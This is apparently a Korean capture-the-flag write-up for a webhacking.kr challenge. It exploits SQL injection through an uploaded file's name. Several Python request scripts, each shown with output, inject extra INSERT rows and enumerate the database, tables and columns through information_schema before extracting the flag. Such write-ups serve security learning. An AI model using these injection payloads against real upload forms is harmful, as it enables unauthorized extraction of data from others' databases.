



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 하나 올려보면 시간과 ip, 파일 명이 올라간다. 아마도 insert이후 ip기준 select인 듯 하다.



다음과 같은 코드를 실행할 때, insert가 되는 것을 보아 file, time, ip순으로 값을 채워주면 될 듯하다.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile': ('1\', 2, \'61.251.215.194\')#', 'hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:02	|	61.251.215.194	|	1
--------------------------------------------------------------
```

모든 값을 조작할 수 있지만, 시간은 귀찮아지고, ip는 입력한 ip만 select되니 고정이어야 하고, 만만한건 파일명을 조작하는 것이다.

insert시에 파일 명은 string값일테니 ' 혹은 " 이 붙을 것이다. 따라서 values 값을 2개로 늘려 입력하여 SQLi를 시도하자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((select database()), 0, \'61.251.215.194\')#','Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	chall29
--------------------------------------------------------------
```

문제에서 FLAG는 다른 테이블에 있다고 했으니 테이블 명들을 뽑아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT GROUP_CONCAT(table_name) from information_schema.tables where TABLE_SCHEMA=\'chall29\'), 0, \'61.251.215.194\')#','Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	files,flag_congratz
--------------------------------------------------------------
```

flag_congratz 테이블의 컬럼 명을 알아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT GROUP_CONCAT(column_name) from information_schema.columns where table_name=\'flag_congratz\'), 0, \'61.251.215.194\')#', 'Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	flag
--------------------------------------------------------------
```

데이터를 뽑아보자.

```python
import requests

files       = {'upfile':('0\', 0, \'61.251.215.194\'),((SELECT flag from flag_congratz), 0, \'61.251.215.194\')#', 'Hello world')}

CHALLENGE   = 'https://webhacking.kr/challenge/web-14/index.php'
SESSION_ID  = '3pahrvqafgv3j0jav7q3qg03nh'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

req         = requests.post(CHALLENGE, headers=headers, files=files)

[Output]
--------------------------------------------------------------
1970-01-01 09:00:00	|	61.251.215.194	|	FLAG{didYouFeelConfused?_sorry:)}
--------------------------------------------------------------
```

점수를 획득하자.




# **FLAG**

**FLAG{didYouFeelConfused?_sorry:)}**